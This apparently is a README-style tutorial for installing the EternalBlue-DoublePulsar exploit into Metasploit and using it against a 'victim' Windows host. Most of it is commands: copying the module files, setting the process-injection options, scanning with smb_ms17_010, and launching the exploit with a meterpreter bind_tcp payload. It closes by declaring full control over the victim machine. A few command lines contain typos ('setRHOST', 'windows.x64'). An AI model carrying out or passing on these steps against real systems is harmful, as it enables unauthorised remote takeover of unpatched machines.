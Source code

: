 # Eternalblue-Doublepulsar-Metasploit

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps /usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the Eternal Blue-Doublepulsar.rb with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
register_options([
	OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
	OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
	OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
	OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into [Microsoft Windows 10](https://answers.microsoft.com/en-us/windows/forum/all/how-to-open-port-in-windows-10-firewall/f38f67c8-23e8-459d-9552-c1b94cca579a)

Then we should specify the name of the process to be injected, we have specified here as 'explorer.exe'

Then you should launch msfconsole and use the auxiliary scan module smb_ms17_010.rb.
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services
msf6 > 
~~~

use the auxiliary scan module smb_ms17_010.rb
~~~
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf6 > set RHOSTS IP
msf6 > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf6 > use exploit/windows/smb/eternalblue_doublepulsar
msf6 > set payload windows.x64/meterpreter/bind_tcp
msf6 > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf6 > setRHOST IP
msf6 > set targetarchitecture x64
msf6 > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

***source:***
[rapid7](https://github.com/rapid7/metasploit-framework/modules/auxiliary/scanner/smb)
[ElevenPaths](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
